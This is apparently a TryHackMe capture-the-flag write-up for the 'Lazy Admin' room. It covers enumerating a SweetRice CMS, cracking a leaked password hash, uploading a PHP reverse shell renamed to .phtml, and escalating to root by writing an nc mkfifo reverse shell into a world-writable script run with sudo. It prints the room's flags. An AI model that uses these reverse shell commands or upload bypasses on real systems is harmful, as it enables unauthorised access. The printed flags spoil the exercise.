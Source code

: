 # Lazy Admin

> Platform: TryHackMe
>
> Created by: MrSeth6797
>
> Difficulty: Easy

## Reconnaisance, Scanning & Enumeration

First of all, we will begin with the Nmap which requires us to answer some of the questions.
```bash
$ nmap -sSVC <TARGET-IP> -T5 -Pn -n -vvv -oA lazyadminscan
```
Actually, you can just use a normal Nmap command, but here is my preferences.

After finish scanning the machine, now we can answer some of the questions:

![img](portopen.png)

Then, to know the hidden directory of the target, we need to run the GoBuster tool.
```bash
$ gobuster dir -u http://<TARGET-IP>/ -w /usr/share/wordlists/dirb/common.txt
```

![img](gobuster1.png)

When opening the **"/content"** page, we found out that the page is using the SweetRice CMS.

![img](closedcms.png)

Then, try to enumerate more the page from **"/content/"**.
```bash
$ gobuster dir -u http://<TARGET-IP>/content/ -w /usr/share/wordlists/dirb/common.txt
```

![img](gobuster2.png)

Nice, now we can see more of the directory from the **"/content/"** page.

When going to the **"/content/as/"** page, it looks like we need to have the **valid credentials** to get to the page.

![img](loginpage.png)

Try to explore more the enumerated directories. In **"/content/inc/"**, we can see that there are **mysql_backup folder** with the **.sql** file which seems to be the backup file of the database. Try to **retrieve** it.

![img](mysqlbackupfile.png)

![img](mysqlbackupcontent.png)

From what we can see here, it looks like there is the **credentials that we may use** to login to page.
```sql
"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:
```

The credentials maybe **admin** or **manager**:
| username | password (hash) |
| :---: | :---: |
| admin | 42f749ade7f9e195bf475f37a44cafcb |
| manager | 42f749ade7f9e195bf475f37a44cafcb |

## Exploitation

So now, try to crack the hash by using [CrackStation](https://crackstation.net/) page.

![img](crackstation.png)

Nice, now let's try to login to the page.

![img](pagebefore.png)

Looks like the correct credentials is **"manager:Password123"**.

After several minutes surfing the page, there are post functionalities where we can upload a file in it.

![img](createpostpage.png)

Scroll until down to view the upload file function

![img](uploadfilepage.png)

For a file to upload, I use the php reverse shell that are included in the Kali Linux which can be found at **"/usr/share/webshells/php/php-reverse-shell.php"**.

So, we just need to copy this file to our folder so that we didnt change the template. Then we need to change the **"IP"** and the **"PORT"** as **our IP and PORT**.
```bash
$ pwd
~/upload

$ cp /usr/share/webshells/php/php-reverse-shell.php phpreverseshell.php

$ nano phpreverseshell.php
```

![img](reverseshell.png)

Now, let's create a new post and upload the file.

![img](uploadfile.png)

Make sure to click done. However, it looks like it **doesn't allow us to upload .php** file. Try to **change the file extension from .php to .phtml** and upload it again.
```bash
$ mv phpreverseshell.php phpreverseshell.phtml
```

It will look like this if we are able to upload the file:

![img](successuploadfile.png)

After finish uploading the file, from the GoBuster directory that we have found, we can try to check if the file that we have uploaded success or not in **"/content/attachment/"**

![img](attachment.png)

Now, before click the file, make sure to set netcat as listener with the same port that we have set in the reverse shell file, then click the file.
```bash
$ nc -lvnp <ATTACKER-PORT>
```

![img](nc.png)

Find the user.txt.

```bash
$ pwd
/

$ ls /home
itguy

$ cd /home/itguy

$ cat user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}
```

## 🏳️Flag: user.txt
>**THM{63e5bce9271952aad1113b6f1ac28a07}**

## Privilege Escalation

Moving on to **escalate our privileges to root**.

First, try to check the sudo permission first using the command:
```bash
$ sudo -l
User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

Looks like we **able to use perl and execute backup.pl without the sudo password**. Try to check the content of **backup.pl**.
```bash
$ cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

When executing **backup.pl**, it will run the file **"/etc/copy.sh"**. Interesting. Now try to check the content of **copy.sh**.
```bash
$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.0.190 1234 >/tmp/f
```

This command looks like a reverse shell command. Basically, when running the **backup.pl** file, it will literally copy the command that we run in the target machine.

Also, when checking the permission of the **"/etc/copy.sh"** file, it looks like we are able to change the content of this file.
```bash
$ ls -la /etc/copy.sh
-rw-r--rwx 1 root root 78 Jul 27 17:02 /etc/copy.sh
```

So, the plan is to change the **"/etc/copy.sh"** which will **reverse shell to our attacker machine**, then **run the "/home/itguy/backup.pl"** using the **"/usr/bin/perl" with sudo** which will **not require the sudo password**. To get the reverse shell command, I use the [revshell](https://www.revshells.com/) page and use the **"nc mkfifo" payload**. Set the IP with your attacker machine IP and different PORT other than the first one that you have used.
```bash
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc <ATTACKER-IP> <ATTACKER-PORT> >/tmp/f" > /etc/copy.sh
```

Before running the **backup.pl**, make sure to **set another netcat listener** but now with **different port** that you choose before. Then, run the **backup.pl** file but make sure to **run it as "/home/itguy/backup.pl"** as it will not ask us the sudo password based on the **"sudo -l" command** that we have run before.
```bash
$ sudo /usr/bin/perl /home/itguy/backup.pl
```

Now, we need to wait and read the **"root.txt"** file to complete this machine.

![img](rootflag.png)

## 🏳️Flag: root.txt
>**THM{6637f41d0177b6f37cb20d775124699f}**